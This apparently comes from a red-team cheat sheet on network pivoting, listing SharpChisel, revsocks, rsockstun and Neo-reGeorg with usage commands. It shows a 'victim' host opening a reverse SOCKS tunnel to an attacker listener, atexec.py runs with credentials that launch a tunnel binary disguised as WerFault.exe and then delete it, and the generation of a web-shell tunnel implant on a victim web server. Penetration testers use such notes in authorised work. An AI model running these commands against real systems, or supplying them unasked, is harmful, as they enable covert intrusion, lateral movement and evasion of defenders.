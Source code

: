 
#### SharpChisel

- [https://github.com/shantanu561993/SharpChisel](https://github.com/shantanu561993/SharpChisel)
- [https://github.com/latortuga71/SharpChisel-NG](https://github.com/latortuga71/SharpChisel-NG)
- [https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a](https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a)
- [https://github.com/m3rcer/Chisel-Strike](https://github.com/m3rcer/Chisel-Strike)



### revsocks

* [https://github.com/kost/revsocks](https://github.com/kost/revsocks)

```
snovvcrash@kali:~$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass 'Passw0rd!'
alice@victim:~$ ./revsocks -connect 10.14.14.3:8000 -pass 'Passw0rd!'
```



### rsockstun

- [https://github.com/llkat/rsockstun](https://github.com/llkat/rsockstun)

```
$ openssl req -new -x509 -keyout cert.key -out cert.crt -days 365 -nodes
$ sudo rsockstun -listen :8000 -socks 127.0.0.1:1080 -cert cert -pass 'Passw0rd!'
```

Quicky:

```
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'start "" /b C:\Windows\WerFault.exe -connect 10.10.13.37:8000 -pass "Passw0rd!"'
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'taskkill /IM:WerFault.exe /F && del C:\Windows\WerFault.exe'
// or get proc image first to make sure you're killing the right proc and kill by pid -- 'wmic process where "name='"'"'WerFault.exe'"'"'" get ProcessID, ExecutablePath'
```



### Neo-reGeorg

* [https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)
* [https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

Generate a tunnel implant and copy it to the Victim web server from `./neoreg_servers/tunnel*`:

```
$ python neoreg.py generate -k 'Passw0rd!'
```

Connect to the implant (`.aspx`, for example):

```
$ python neoreg.py -k 'Passw0rd!' -u http://web01.megacorp.local/tunnel.aspx -l 0.0.0.0 -p 1337 [--skip]
```
